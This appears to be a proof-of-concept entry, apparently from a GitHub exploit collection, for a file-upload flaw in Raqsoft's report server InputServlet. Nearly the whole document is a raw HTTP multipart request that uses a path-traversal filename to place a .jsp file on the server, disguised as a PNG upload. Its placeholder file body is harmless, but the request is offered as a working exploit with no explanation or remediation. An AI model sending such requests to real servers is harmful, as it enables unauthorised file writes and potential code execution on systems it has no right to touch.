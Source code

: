 # raqsoft_InputServlet_fileupload

from: https://github.com/wy876/POC/blob/main/%E6%B6%A6%E4%B9%BE%E6%8A%A5%E8%A1%A8InputServlet%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md

2024.4.8 @2

```
POST /InputServlet?action=12 HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: multipart/form-data; boundary=--------------------------170005680039721412137562
Accept-Encoding: gzip, deflate, br
Content-Length: 2401

----------------------------170005680039721412137562
Content-Disposition: form-data; name="upsize"

1024
----------------------------170005680039721412137562
Content-Disposition: form-data; name="file"; filename="/\..\\..\2.jsp"
Content-Type: image/png

11111
----------------------------170005680039721412137562--
```
